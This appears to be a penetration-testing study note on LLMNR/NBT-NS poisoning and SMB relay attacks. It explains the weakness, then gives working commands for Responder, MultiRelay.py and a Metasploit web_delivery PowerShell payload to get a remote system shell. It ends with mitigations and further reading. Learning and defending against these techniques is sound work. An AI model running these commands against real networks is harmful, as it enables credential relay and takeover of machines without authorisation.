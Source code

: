 # Relay attacks
---
# Navigation
- **[[#Whats LLMNR]]**
- **[[#SMB Relay attack]]**
- **[[#Mitigations]]**
- **[[#Further reading]]**
---
## Whats LLMNR?
**Link-Local Multicast Name Resolution (LLMNR)** and **NetBIOS Name Service (NBT-NS)** are Microsoft Windows components that serve as alternate methods of host identification. **LLMNR is based upon the Domain Name System (DNS) format** and allows hosts on the same local link to perform name resolution for other hosts. NBT-NS identifies systems on a local network by their NetBIOS name.
But this method of host resolution has severe security impact, as when a non-existing host is searched using LLMNR method, it **broadcasts** the search request to every system connected to the local network. As a result, **if any of the systems in local network is somehow compromised by an attacker, it also receives the host search query and can send a response to the victim** (the system which initiated the host resolution query) that it knows the host **and in turn ask for the password hash of the victim**.

![[LLMNR.png]]
# SMB relay attack
## Definition
SMB signing is a security mechanism that allows digitally signing SMB packets to enforce their authenticity and integrity - the client/server knows that the incoming SMB packets they are receiving are coming from a trusted source and that they have not been tampered with while in transit, preventing man in the middle type attacks.
Instead of cracking the NTLM hashes taken from the LLMNR poisoning attack or any other method we can authenticate using the hash using SMB relay attack but this requires two conditions:
- The victim user must be a local admin.
- SMB signing must be disabled.
## Checking if SMB signing id disabled
```bash 
nmap -p 445 -sS --script smb-security-mode.nse <Target-IP>
```
## Exploitation
1. Turn off the SMB and HTTP servers by changing ‘On’ to ‘Off’.
```bash
nano /usr/share/responder/Responder.conf
```
2. Run Responder.
```bash
responder -I <Interface> -rv
#-I (capital i specifies interface) -rv (required settings for relay attack)
```
3. Boot up Multi-Relay and wait.
```bash
cd /usr/share/responder/tools
python MultiRelay.py -t <Targete-IP> -u ALL
```
4. Post-exploitation
Shut off responder and let's get a system shell
```bash
msfconsole
use exploit/multi/script/web_delivery
show targets #Then select 'PSH' (Powershell)
run
```
5. Take the command from metsaploit and execute it in the multirelay shell.
## Mitigations
1. Disable LLMNR and NetBIOS in local security settings or by group policy this can be done by running the following powershell command to change the registry to disbale llmnr and netbios.
```powershell
New-Item "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT" -Name DNSClient  -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\DNSClient" -Name EnableMultiCast -Value 0 -PropertyType DWORD  -Force
```
2.  Enabling SMB signing can stop NTLMv2 relay attacks (note that this will increase traffic because of the additional processing for each packet) and also some printers may not support SMB singing. To turn on SMB signing you can do so through group policy by enabling “Microsoft network client: Digitally sign communication (always)”
3.  Network segmentation is another way in which this can be mitigated because then the man in the middle attack is limited in scope. This can be achieved by segmenting the network through Vlans.

# Further reading
1. [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
2.   [https://medium.com/@subhammisra45/llmnr-poisoning-and-relay-5477949b7bef](https://medium.com/@subhammisra45/llmnr-poisoning-and-relay-5477949b7bef)
3.   [https://book.hacktricks.xyz/pentesting/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks](https://book.hacktricks.xyz/pentesting/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks)
4.   [https://www.ired.team/offensive-security/lateral-movement/lateral-movement-via-smb-relaying-by-abusing-lack-of-smb-signing](https://www.ired.team/offensive-security/lateral-movement/lateral-movement-via-smb-relaying-by-abusing-lack-of-smb-signing)